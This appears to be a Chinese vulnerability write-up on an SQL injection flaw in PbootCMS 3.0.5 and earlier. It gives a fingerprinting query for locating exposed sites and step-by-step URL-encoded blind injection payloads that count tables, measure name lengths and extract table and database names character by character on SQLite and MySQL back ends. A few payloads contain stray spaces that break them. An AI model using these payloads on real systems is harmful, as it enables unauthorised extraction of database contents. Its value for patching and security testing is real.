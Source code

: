 # PbootCMS domain SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>PbootCMS <= 3.0.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="PBOOTCMS"</a-checkbox></br>

## 漏洞复现

本地搭建好最新版本,访问首页

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629446682012-1df0a2c6-c764-4f1f-a5ae-cb85fd927b7e.png)

我们需要访问一个存在的页面

url中13后加个单引号 '

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629446712199-bb42a36a-69b2-485a-b0e6-0512f775cf45.png)

若为执行sql报错相关,则漏洞存在

若显示下图

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629446812952-1dc35ab3-7379-424b-aad0-f8ad0629361c.png)

则漏洞无法利用

程序默认搭建为sqlite3数据库, Fuzz当前数据库表单payload

```plain
')%0aand%0a(SELECT%0acount(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d'ta ble'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%')<40--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629447097101-67648843-6711-4cbc-a2f2-dfa5f6aaa6f9.png)

通过此payload进行盲注Fuzz数据库中表单总数是否小于40

查询为真返回正常,假则报错

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629447283665-e890ddac-0cea-4447-a0ff-d42578145f93.png)

由此我们可以准确推断出表单总数

计算sqlite数据库中第一个表名长度,我们可以使用如下payload:

```plain
')%0aand%0a(SELECT%0alength(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d't able'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a1%0aoffset%0a0)<8--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629447585595-c411c868-fcff-4361-8a84-84596245407a.png)

猜解第一个表名称,我们可以使用如下payload:

```plain
')%0aand%0a(SELECT%0asubstr(tbl_name,1,1)%0aFROM%0asqlite_master%0aWHERE%0atype% 3d'table'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a1%0aoffset%0a0)%3d'a'--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629447665612-0b0fe39d-b896-41d9-9904-cf760f2b516c.png)

这样可以得到数据库第一个表的第一位数值为字符串"a"

通过substr()函数,我们可以很轻松的得到表名称.

同理可获取其他数据

#### 在Mysql下的利用方式

猜解当前数据库名称 可以使用如下payload进行Fuzz:

```plain
')%0aand%0a(select%0asubstr(database(),1,1)%3d'p')%23
```

查询为真时页面将返回正常.

使用Burpsuite可以爆破出数据库名称,其他表名字段名等方法相同

<a-alert type="success" message="(附: https://github.com/Catw0rld/vulner/issues/1)" description="" showIcon>
</a-alert>
<br/>